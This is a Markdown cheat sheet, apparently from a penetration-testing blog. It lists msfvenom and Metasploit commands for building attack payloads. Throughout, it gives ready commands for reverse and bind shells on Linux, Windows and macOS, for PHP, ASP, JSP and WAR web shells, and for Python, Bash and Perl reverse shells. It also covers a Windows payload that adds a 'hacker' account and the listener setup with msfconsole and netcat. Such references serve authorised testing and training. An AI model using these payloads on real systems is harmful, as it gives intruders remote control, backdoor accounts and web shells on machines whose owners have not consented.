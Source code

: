 ```yaml
---
title:  "Msfvenom Payload Cheat Sheet"
header: "Msfvenom Payload Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Msfvenom
---
```


Msfvenom (replaced the former msfpayload and msfencode tools) and is a tool that can be used to generate payloads as standaline files and encode them if needed. Everybody likes shells, right?

# Usage  
***

![Msfvenom Usage](/assets/images/msfvenom.JPG)

# Basic Commands  
***
#### List available payloads  
`msfvenom -l`

#### Encoding Payloads  
`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

# Handler Setup  
***
#### Meterpreter  
`msfconsole -q`  
`use exploit/multi/handler`  
`set PAYLOAD <PAYLOAD>`  
`set LHOST <IP>`  
`set LPORT <IP>`  
`set ExitOnSession false`  
`exploit -j -z`  

#### Netcat  
`nc -nlvp <PORT>

# Linux  
***
#### Reverse Shell  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

#### Bind Shell  
`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

# Windows  
***
#### Reverse Shell  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### Bind Shell  
`msfvenom -p windows/meterpreter/bind_tcp RHOST= <IP> LPORT=<PORT> -f exe > shell.exe`

#### CMD Shell  
`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### User Creation  
`msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`

# Mac  
***
#### Reverse Shell  
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

#### Bind Shell  
`msfvenom -p osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

# Web Payloads  
***
#### PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`  
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

#### ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`

#### JSP  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`

#### WAR  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`

# Scripting Payloads  
***
#### Python  
`msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py`

#### Bash  
`msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh`

#### Perl  
`msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl`
